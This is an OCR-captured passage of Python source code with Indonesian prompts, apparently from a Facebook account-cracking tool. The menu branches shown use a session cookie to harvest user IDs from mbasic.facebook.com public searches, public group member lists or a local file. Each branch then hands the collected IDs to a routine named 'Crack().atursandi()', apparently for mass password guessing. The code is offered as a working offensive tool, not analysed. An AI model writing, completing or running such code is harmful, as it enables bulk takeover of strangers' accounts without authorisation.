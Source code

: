 				for people in common:

					self.id.append(people+" "+idt)

			try:

				for gas in self.id:

					Dump(cookie).Dump_Pencarian(f"https://mbasic.facebook.com/public/{gas}")

			except:pass

			Crack().atursandi()

		

		###----------[ MEMBER GRUP ]---------- ###

		elif menu in["6","06"]:

			prints(Panel(f"""{P2}masukan id grup, pastikan grup bersifat publik dan tidak private""",width=80,style=f"{color_panel}"))

			user = console.input(f" {H2}• {P2}masukan id grup : ")

			Dump(cookie).Dump_MemberGrup(f"https://mbasic.facebook.com/groups/{user}")

			Crack().atursandi()

			

		###----------[ FILE MASSAL ]---------- ###

		elif menu in["7","07"]:

			prints(Panel(f"""{P2}masukan tempat file, pastikan izin ke penyimpanan sudah diaktifkan""",width=80,style=f"{color_panel}"))

			user = console.input(f" {H2}• {P2}masukan tempat file : ")

			Dump(cookie).Dump_File(user)

			Crack().atursandi()

		###----------[ PINDAH KE MENU BOT ]---------- ###

		elif menu in["BOT","Bot","bot"]:

			exit(prints(Panel(f"""{M2}🙏 maaf fitur ini belum tersedia, silahkan menunggu update selanjutnya""",width=80,style=f"{color_panel}")))

			

		###----------[ PINDAH KE MENU LAIN ]---------- ###

		elif menu in["LAIN","Lain","lain"]:

			Lain(cookie).menu()

			

		else:

			exit(prints(Panel(f"""{M2}🙏 maaf fitur ini belum tersedia, silahkan menunggu update selanjutnya""",width=80,style=f"{color_panel}")))

			